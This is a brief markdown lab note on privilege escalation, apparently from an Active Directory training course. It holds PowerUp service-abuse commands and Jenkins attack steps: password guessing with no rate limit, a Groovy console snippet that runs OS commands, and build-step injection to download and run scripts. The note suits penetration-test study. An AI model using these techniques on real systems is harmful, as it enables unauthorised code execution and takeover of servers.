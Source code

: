 # Privilege Escalation
> Mainly focus on the Domain Privilege Escalation
Table of Content
1. [test](#test)


## Local privilege
> See [Window Privilege Escalation](#test)

All check
```powershell
. .\PowerUp.ps1
Invoke-AllChecks
```

Service abuse
```powershell
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx'
```


# Jenkin --> move to CVE catagory
1. jenkin default allow us to read user and computer
2. jenkin dosn't have rate limit which we can burte force if we know the username (form author perspective try guessing password as username or reversed username)
3. with administrator privileges we can run groovy script on the system

>If you have Admin access (default installation before 2.x), go to http://<IP>/script
In the script console, Groovy scripts could be
```Groovy
executed.def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```
5. with normal user, we may can create configuration for the project and we can run OS command via the configuration. (checking permission on burp intruder appending the /configure to the project file) - you need to check every project

>If you don't have admin access but could add or edit build steps in the build configuration. Add a build step, add "Execute Windows Batch Command" and enter: **powershell –c**

>Again, you could download and execute scripts, run encoded scripts and more.

>In the real world, make our configuration code run before the already-have-code.